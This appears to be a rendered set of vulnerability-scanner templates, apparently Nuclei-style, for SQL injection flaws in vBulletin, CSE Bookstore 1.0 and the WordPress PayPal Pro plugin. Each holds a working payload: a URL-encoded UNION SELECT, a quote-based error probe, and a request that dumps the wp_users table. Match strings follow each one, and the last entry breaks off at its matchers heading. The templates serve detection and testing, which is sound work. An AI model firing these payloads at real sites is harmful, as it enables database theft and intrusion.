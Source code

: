 ```
nodeId%5Bnodeid%5D=1%20union%20select%201%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C14%2C15%2C16%2C17%2CCONCAT%28%27vbulletin%27%2C%27rce%27%2C%40%40version%29%2C19%2C20%2C21%2C22%2C23%2C24%2C25%2C26%2C27--+-

```
### Matchers

**Type - word**
- words
    1. vbulletinrce

---
# CSE Bookstore 1.0 - SQL Injection
## Description
- CSE Bookstore version 1.0 is vulnerable to time-based blind, boolean-based blind and OR error-based SQL injection in pubid parameter in bookPerPub.php. A successful exploitation of this vulnerability will lead to an attacker dumping the entire database.
- severity - critical
- tags - cve,cve2020,sqli,cse,edb,tenable
## Requests
### Step - 1
```
GET /ebook/bookPerPub.php?pubid=4' HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. get book price failed! You have an error in your SQL syntax
    2. Can't retrieve data You have an error in your SQL syntax
- condition - or

---
# WordPress PayPal Pro <1.1.65 - SQL Injection
## Description
- WordPress PayPal Pro plugin before 1.1.65 is susceptible to SQL injection via the 'query' parameter which allows for any unauthenticated user to perform SQL queries with the results output to a web page in JSON format.
- severity - critical
- tags - wp-plugin,sqli,paypal,wpscan,cve,cve2020,wordpress
## Requests
- Method - GET
### URL
- {{BaseURL}}/?cffaction=get_data_from_database&query=SELECT%20*%20from%20wp_users
### Matchers
